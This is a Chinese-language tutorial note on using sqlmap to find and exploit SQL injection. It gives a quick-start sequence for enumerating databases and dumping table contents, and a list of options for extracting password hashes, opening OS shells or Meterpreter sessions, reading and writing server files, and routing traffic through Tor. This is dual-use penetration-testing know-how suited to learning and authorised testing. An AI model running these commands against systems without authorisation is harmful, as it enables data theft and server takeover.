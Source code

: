 ```yaml
---
title: Sqlmap注入使用技巧
date: 2019-04-09 13:13:05
tags:
    - Sqlmap
    - 注入
    - 软件
categories:
    - 笔记总结
    - 软件运用
---
```


## 简介
Sqlmap是一种开源的渗透测试工具，可以自动检测和利用SQL注入漏洞以及接入该数据库的服务器。它拥有非常强大的检测引擎、具有多种特性的渗透测试器、通过数据库指纹提取访问底层文件系统并通过外带连接执行命令
支持的数据库：
> MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase and SAP MaxDB 

SQL注入技术：
> boolean-based blind, time-based blind, error-based, UNION query, stacked queries and out-of-band

枚举数据：
> users, password hashes, privileges, roles, databases, tables and columns

<!--more-->

## 快速上手
1. 对url进行检测，判断是否存在SQL注入
> sqlmap -u "url" --batch
2. 获取当前数据库
> sqlmap -u URL --current-db
3. 获取当前数据库里所有表
> sqlmap -u URL -D database --tables
4. 获取当前数据库表里的字段
> sqlmap -u URL -D database -T tablename --columns
5. 获取字段内容
> sqlmap -u URL -D database -T tablename -C columnsname --dump

## 常用检测参数
```bash
--current-user      检索当前用户
--current-db        检索当前数据库
-is-dba 当前用户权限（是否为root权限）
-dbs 所有数据库
--users             列出用户列表
--passwords         列出用户密码的hash值
--os-shell          提示为交互式操作系统shell
--os-pwn            提示为OOB外壳，Meterpreter或VNC
--batch             永远不要要求用户输入，使用默认行为
--sql-shell         提示输入交互式sqlmap shell
请求:
    这些选项可用于指定如何连接到目标URL
    --data=DATA         数据字符串通过POST发送
    --cookie=COOKIE     HTTP Cookie的值
    --random-agent      随机选择 HTTP User-Agent 头的值
    --proxy=PROXY       使用代理去连接目标URL
    --tor               使用匿名网络
    --check-tor         检查Tor是否正确使用

File system access（访问文件系统）：
这些选项可以被用来访问后端数据库管理系统的底层文件系统。

    –file-read=RFILE 从后端的数据库管理系统文件系统读取文件
    –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件
    –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

Optimization（优化）：
这些选项可用于优化SqlMap的性能。
    -o 开启所有优化开关
    –predict-output 预测常见的查询输出
    –keep-alive 使用持久的HTTP（S）连接
    –null-connection 从没有实际的HTTP响应体中检索页面长度
    –threads=THREADS 最大的HTTP（S）请求并发量（默认为1）

Injection（注入）：
这些选项可以用来指定测试哪些参数， 提供自定义的注入payloads和可选篡改脚本。
    -p TESTPARAMETER 可测试的参数（S）
    –dbms=DBMS 强制后端的DBMS为此值
    –os=OS 强制后端的DBMS操作系统为这个值
    –prefix=PREFIX 注入payload字符串前缀
    –suffix=SUFFIX 注入payload字符串后缀
    –tamper=TAMPER 使用给定的脚本（S）篡改注入数据

Detection（检测）：
这些选项可以用来指定在SQL盲注时如何解析和比较HTTP响应页面的内容。
    –level=LEVEL 执行测试的等级（1-5，默认为1）
    –risk=RISK 执行测试的风险（0-3，默认为1）
    –string=STRING 查询时有效时在页面匹配字符串
    –regexp=REGEXP 查询时有效时在页面匹配正则表达式
    –text-only 仅基于在文本内容比较网页

Techniques（技巧）：
这些选项可用于调整具体的SQL注入测试。
    –technique=TECH SQL注入技术测试（默认BEUST）
    –time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）
    –union-cols=UCOLS 定列范围用于测试UNION查询注入
    –union-char=UCHAR 用于暴力猜解列数的字符

Fingerprint（指纹）：
    -f, –fingerprint 执行检查广泛的DBMS版本指纹

Brute force（蛮力）：
这些选项可以被用来运行蛮力检查。
    –common-tables 检查存在共同表
    –common-columns 检查存在共同列
```


## 参考文章
[官方地址](http://sqlmap.org)
[Github地址](https://github.com/sqlmapproject/sqlmap)
[中文使用说明](http://www.91ri.org/6775.html)
[sqlmap使用笔记](https://www.cnblogs.com/coder2012/p/3939703.html)
[sqlmap注入教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)